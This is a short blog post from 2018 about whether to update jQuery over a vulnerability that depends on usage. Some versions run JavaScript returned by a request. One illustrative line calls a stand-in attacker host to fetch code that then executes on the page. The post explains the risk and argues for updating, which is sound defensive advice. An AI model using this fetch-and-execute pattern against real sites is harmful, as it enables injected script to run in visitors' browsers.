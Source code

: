 ```yaml
---
layout: post
title: "Should you update jQuery over a hypotethical vulnerability?"
thumbnail: fortune-teller-240.jpg
date: 2018-08-18
---
```



<!-- photo source: https://www.2ndmlg.marines.mil/Photos/igphoto/2000010532/ -->

## A vulnerability in jQuery

jQuery is a client-side JavaScript library. Like any software it can contain vulnerabilities, but often these can only be exploited if the library is used in some specific way. For example, some versions of jQuery [automatically execute JavaScript](/2017/09/27/some-libraries-evaluate-remote-javascript/) returned from a request. This is certainly unexpected and can lead to vulnerabilities: you call `$.GET("http://attacker.com/picture.gif")`, the attacker returns a JavaScript response from his server and this is executed on the page.

If you use user input URLs in `$.GET` calls, you are vulnerable to this attack. But what if you don't?

## Hypothetical vulnerabilities

If you don't use the library in a way that makes your site vulnerable, there is no vulnerability. However, it is still a good idea to update your jQuery version. You may not retrieve user-provided URLs now, but maybe you'll develop it in the future. Maybe you made a mistake when checking your code for vulnerable usage of the library, or maybe the vulnerable code is in a third-party component.
